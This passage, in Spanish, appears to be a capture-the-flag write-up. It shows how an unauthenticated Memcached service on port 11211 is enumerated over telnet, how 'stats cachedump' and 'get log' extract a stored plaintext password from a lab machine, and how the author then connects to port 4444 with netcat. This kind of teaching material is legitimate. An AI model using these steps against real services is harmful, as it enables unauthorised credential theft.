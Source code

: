 En la misma página oficial nos da una pista importante a modo de ejemplo:

~~~
Play with telnet

$ telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
get foo
VALUE foo 0 2
hi
END
stats
STAT pid 8861
(etc)
~~~

De esta forma, sabemos que el vector de ataque es mediante Telnet al servicio Memcached a través del puerto 11211.
Aquí estaba bastante perdido, pero como siempre, Google es nuestro mejor amigo, por lo que buscando "pentest memcached" nos llevó a este artículo:
<https://www.hackingarticles.in/penetration-testing-on-memcached-server/>

Sigo los pasos del artículo y llego a esto introduciendo `stats cachedump 1 0`:

~~~
❯ telnet 192.168.0.25 11211
Trying 192.168.0.25...
Connected to 192.168.0.25.
Escape character is '^]'.
stats cachedump 1 0
ITEM domain [8 b; 0 s]
ITEM server [9 b; 0 s]
ITEM log [18 b; 0 s]
ITEM conf_location [21 b; 0 s]
END
~~~

Ahora realizamos `get log`:

~~~
get log
VALUE log 0 18
password: cr4zyM3d
END
~~~

Y ya tenemos una **contraseña**


### Puerto 4444

Nos conectamos por Netcat:

`nc 192.168.0.25 4444`
